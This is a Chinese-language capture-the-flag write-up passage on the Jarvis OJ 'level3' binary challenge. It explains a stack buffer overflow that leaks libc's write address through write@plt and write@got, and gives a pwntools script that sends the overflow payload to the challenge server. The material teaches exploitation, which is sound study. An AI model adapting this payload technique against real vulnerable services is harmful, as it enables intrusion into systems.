 
前面已经用两种方式获取了write@plt和write@got的地址，然后就是想办法获取libc的基地址，构造的payload结构就是
```
payload = 一般是填充字符（栈的大小）+ ‘aaaa’（覆盖EBP）+  p32(write_plt) + p32(start)(返回地址） + p32(1)+ p32(write_got)+p32(4)
```


![](README/9702F114-D250-4A58-B55C-BB0646880E3D%203.png)
获得了write函数的基地址就是4150267872
```python
#coding=utf-8

from pwn import *

local = False


if local:
    conn = process("./level3")
    elf_libc = ELF("/lib/i386-linux-gnu/libc.so.6")

else:
    conn = remote("pwn2.jarvisoj.com", 9879)
    elf_libc = ELF("./libc-2.19.so")
    elf = ELF("./level3")


#从进程文件中获取write函数的plt地址和got地址

# write_plt = elf.plt["write"]
# write_got = elf.got["write"]
#
# print(write_plt)
# print(write_got)

write_plt = 0x08048340
write_got = 0x0804a018
addr_func = 0x0804844B

payload1 = 'a' * (0x88+0x4) + p32(write_plt) + p32(addr_func) + p32(1)+p32(write_got)+p32(4)  #溢出地址+返回地址+参数

conn.recvuntil("Input:\n")
conn.sendline(payload1)
writeaddr = u32(conn.recv(4))

print(writeaddr)

```

